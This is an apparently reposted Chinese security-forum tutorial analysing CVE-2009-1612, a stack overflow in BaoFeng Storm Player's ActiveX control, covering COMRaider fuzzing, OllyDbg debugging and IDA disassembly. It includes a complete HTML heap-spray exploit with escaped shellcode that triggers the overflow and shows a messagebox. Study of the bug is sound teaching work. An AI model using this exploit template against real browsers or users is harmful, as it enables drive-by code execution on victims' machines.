# 暴风影音 ActiveX 控件 OnBeforeVideoDownload()函数栈溢出漏洞 分析与利用

> 原文：[`www.pediy.com/kssd/pediy10/98693.html`](https://www.pediy.com/kssd/pediy10/98693.html)

暴风影音 ActiveX 控件 `OnBeforeVideoDownload()`函数栈溢出漏洞 分析与利用

受影响系统：

`BaoFeng` 暴风影音 `2.9`

`BaoFeng` 暴风影音 `2.8`

`BaoFeng` 暴风影音 `2.7`

描述：

`BUGTRAQ ID:` `34789` `CVE(CAN) ID:` `CVE-2009-1612` 暴风影音是在中国非常流行的万能多媒体播放软件。暴风影音 `mps.dll` 库所提供的 `MPS.StormPlayer.1` ActiveX 控件没有正确地验证对 `OnBeforeVideoDownload()`函数所传送的输入参数。如果用户受骗访问了恶意网页并向该函数提供了超长输入的话，就可以触发栈溢出，导致执行任意指令。

## 分析与利用：

工具：`ollydbg`调试工具, `COMRaider` COM Fuzz 工具

测试环境：`XP sp3`, `IE7`

步骤：

首先我们已经知道此漏洞出问题的是 ActiveX 控件 `mps.dll` 中的 `OnBeforeVideoDownload()`函数。下面我们先用 `COMRaider` 来进行 fuzz 测试打开 `COMRaider`



然后我们点击右上角的 `start` 按钮然后选择第一项然后 `next` 如下图所示：



在此选择我们要进行 fuzz 的 `mps.dll` 点打开后就会列出当前的 ActiveX 中的属性和方法因为我们已经知道了 `OnBeforeVideoDownload()`函数有问题，所以我们直接找到此函数然后在此函数上右击选 `fuzz member` 如下图所示：



这时 `ComRaider` 已经帮我们生成了好多的测试文件，然后我们点击 `next` 就可以进行 fuzz 测试了如下图所示：



可以看到窗口的最上边是测试文件列表紧接着下面是异常列表用来显示异常信息另面在最下面还提供了关闭错误提示杀死异常线程等功能。最后我们点击 `Begin Fuzzing` 就可以进行 fuzz 测试了，最后的测试结果如下图所示：



从上图我们可以看到一共有 16 个异常信息，我们在测试文件列表中随便选一个就会在下面的异常信息栏显示当前的异常信息，我们可以看当前的异常是访问违规，`EIP` 被指到了地址 `41414141`，也就是 4 个 `A` 的 `ASCII` 码。我们还可以查看当前的测试文件，在测试文件列表中右击一个测试文件在弹出的菜单中选 `View File` 就可以查看当前测试文件的内容。我随便选一个然后查看它的内容如下图：



从这个文件我们可以知道当前测试的 ActiveX 控件是 `d:\\activexbaofeng\\mps.dll`，当前测试的成员函数是 `OnBeforeVideoDownload`,此函数只有一个 `string` 类型的参数，我们传递了 `7188` 个 `A` 来调用此函数。接下来我们查看一下这个测试文件引起的异常信息我们双击异常信息栏中的异常信息就会显示当前的异常信息如下图所示：



从异常信息中我们可以得到程序崩溃时的环境和情况以及寄存器的值 `SEH` 等，在这里我们可以看到程序崩溃时 `EIP` 的值是 `41414141` `ESP` 的值是我们传递的参数 `7188` 个 `A`。到这里我们基本上就可以猜到有可能是我们给函数传递了超长的参数而引起了栈溢出导致程序崩溃。为了验证我们的想法，我们需要进一步的调试，在这里我们可以从 `ComRaider` 中直接启动调试器，我们右击测试文件列表中的当前项，然后在弹出的菜单中选 `launch in olly`，就可以启动 `ollydbg` 来进行调试，如果是第一次用这个功能它会让你选择 `ollydbg` 的安装目录。启动 `ollydbg` 后我们可以看到当前在 `wscript` 模块中，那我们怎么才能定位到产生溢出的函数呢，这里有一个方法：首先我们按 `ALT+E` 调出可执行模块窗口在其中找到 `oleaut32.dll` 如下图所示：



然后我们双击它就来到了 `oleaut32` 的反汇编窗口然后我们再按 `CTRL+N` 调出名称窗口找到 `DispCallFunc` 选中它按 `F2` 下断点如下图：



最后我们 `F9` 运行，等它断下来后我们顺着断下往下找，直到找到 `call ecx` 然后选中这一行按 `F4` 来到这一行如下图：



然后我们按 `F7` 跟进去就来到了产生溢出函数的入口点了现在我们已经在 `mps` 的领空了，然后我们 `F8` 单步步过，直到产生异常记下产生异常的地址我这里是 `1A9427A` 如下图：



在你机器上可能会不一样，然后我们重新载入这次在产生异常的函数这里我们跟进去，接着又会有产生异常的函数我们重复以上的步骤直到来到这里



如果想从 `IDA` 中查看这段代码可以用当前的函数地址减去 `mps` 的模块基地址来算出此函数的偏移然后加上 `IDA` 中的基地址 `10001000` 就得到了此函数在 `IDA` 对应的地址从上图我们可以看出此函数分配了 `133ch` 大小的栈空间然后从 `133ch` 中的 `324h` 处将用来存放我们传入的参数也就是说用来存放我们的参数的栈空间为 `133ch-324h+4h=101ch` 如果我们传入的参数大于 `101ch` 将产生栈溢出，但是要想成功的覆盖返回地址还要加上分配栈空间时留下的 8 个字节和 `SEH` 的 12 个字节再加上返回地址的 4 个字节一共是 24 个字节也就是 `18h` 那么最后我们要传入的参数就是 `101ch+18h=1034h`(4148 个字节）。

接下来我们就来写测试文件来验证我们的测试

```html
<html>

<body>

<object classid="clsid:6BE52E1D-E586-474F-A6E2-1A85A9B4D9FB" id="target"></object>

<script>

Var shellcode="\\u68fc\\u0a6a\\u1e38\\u6368\\ud189\\u684f\\u7432\\u0c91\\uf48b\\u7e8d\\u33f4\\ub7db\\u2b04\\u66e3\\u33bb\\u5332
\\u7568\\u6573\\u5472\\ud233\\u8b64\\u305a\\u4b8b\\u8b0c\\u1c49\\u098b\\u698b\\uad08\\u6a3d\\u380a\\u751e\\u9505\\u57ff\\u95f8\\u8b60
\\u3c45\\u4c8b\\u7805\\ucd03\\u598b\\u0320\\u33dd\\u47ff\\u348b\\u03bb\\u99f5\\ube0f\\u3a06\\u74c4\\uc108\\u07ca\\ud003\\ueb46\\u3bf1
\\u2454\\u751c\\u8be4\\u2459\\udd03\\u8b66\\u7b3c\\u598b\\u031c\\u03dd\\ubb2c\\u5f95\\u57ab\\u3d61\\u0a6a\\u1e38\\ua975\\udb33\\u6853
\\u6577\\u7473\\u6668\\u6961\\u8b6c\\u53c4\\u5050\\uff53\\ufc57\\uff53\\uf857";

var bigblock = unescape("%u9090%9090");

var headersize = 20;

var slackspace = headersize+shellcode.length;

while (bigblock.length<slackspace)
bigblock+=bigblock;

fillblock = bigblock.substring(0, slackspace);

block = bigblock.substring(0, bigblock.length-slackspace);

while(block.length+slackspace<0x40000)
block = block+block+fillblock;

memory = new Array();

for (x=0; x<300; x++)
memory[x] = block + shellcode;

var s= '';

while (s.length < 4148)
s+="\\x0c";

target.OnBeforeVideoDownload(s);

</script>

</body>

</html>
```

把以上内容存为 `html` 文件然后载入 `IE` 就会触发漏洞从而弹出一个 `messagebox`



下面是 `IDA` 中的分析

代码:

```
.text:1005E710 mov eax, large fs:0
.text:1005E716 push 0FFFFFFFFh
.text:1005E718 push offset SEH_1005E710
.text:1005E71D push eax
.text:1005E71E mov eax, 133Ch
.text:1005E723 mov large fs:0, esp
.text:1005E72A call __alloca_probe  ; 分配了 133ch 大小的栈空间
.text:1005E72F push ebp
.text:1005E730 push esi
.text:1005E731 mov esi, [esp+1350h+lpString2]
.text:1005E738 push edi
.text:1005E739 push offset aStormbox_0  ; "stormbox"
.text:1005E73E mov ebp, ecx
.text:1005E740 push esi             ; char *
.text:1005E741 call ds:strstr
.text:1005E747 add esp, 8
.text:1005E74A test eax, eax
.text:1005E74C jnz loc_1005E927    ; 检查传入的参数是否包含 stormbox 如果包含就直接返回了
.text:1005E752 push esi             ; 传入我们的参数
.text:1005E753 lea ecx, [esp+1358h+var_1034] ; 从 133c 中的 324 开始将用来存放参数也就是说存放参数的空间为 133ch-324h+4h=101ch 如果我们传入的参数的大小大于 101ch 就会造成溢出

.text:1005E75A call OverFlow_Function ; 此次调用将产生溢出
.text:1005E75F mov ecx, 41h
.text:1005E764 xor eax, eax
.text:1005E766 lea edi, [esp+1354h+String1]
.text:1005E76D mov [esp+1354h+var_4], 0
........


OverFlow_Function:
push esi
.text:1005FEE1 push edi
.text:1005FEE2 mov edi, [esp+8+lpString2]
.text:1005FEE6 mov esi, ecx
.text:1005FEE8 push edi             ; lpString
.text:1005FEE9 mov dword ptr [esi], offset off_1007C5A4
.text:1005FEEF call ds:lstrlenA     ; 取传入字符串的长度，但没有对它进行合法性检查就直接用做了 lstrcpy 的参数，导致下面调用 lstrcpy 的时候造成字符串淹没了上一个栈桢的返回地址

.text:1005FEF5 inc eax
.text:1005FEF6 push eax             ; iMaxLength
.text:1005FEF7 lea eax, [esi+4]
.text:1005FEFA push edi             ; lpString2
.text:1005FEFB push eax             ; lpString1
.text:1005FEFC call ds:lstrcpynA
.text:1005FF02 mov eax, esi
.text:1005FF04 pop edi
.text:1005FF05 pop esi
.text:1005FF06 retn 4
.........


.text:1005E910 loc_1005E910:                           ; CODE XREF: step3+A5j
.text:1005E910 lea ecx, [esp+1354h+var_1034]
.text:1005E917 mov [esp+1354h+var_4], 0FFFFFFFFh
.text:1005E922 call sub_1005FF30
.text:1005E927
.text:1005E927 loc_1005E927:                           ; CODE XREF: step3+3Cj
.text:1005E927 xor al, al
.text:1005E929
.text:1005E929 loc_1005E929:                           ; CODE XREF: step3+1FEj
.text:1005E929 mov ecx, [esp+1354h+var_C]
.text:1005E930 pop edi
.text:1005E931 pop esi
.text:1005E932 pop ebp
.text:1005E933 mov large fs:0, ecx
.text:1005E93A add esp, 1348h
.text:1005E940 retn 14h       ；返回地址已经被我们修改了

```

到此暴风影音的漏洞从分析到利用就全部完成了。


第一次写文章，大家将就着看吧，希望能对像我一样的小菜鸟有所帮助

下面附上暴风影音有漏洞的 activex 控件，方便大家测试，控件中的别外三个 dll 文件是必须要有的，别忘记先注册控件再测试哦

上传的附件

|  | baofeng.rar [附件请到论坛下载：[`bbs.pediy.com/showthread.php?t=98693`](http://bbs.pediy.com/showthread.php?t=98693)] |
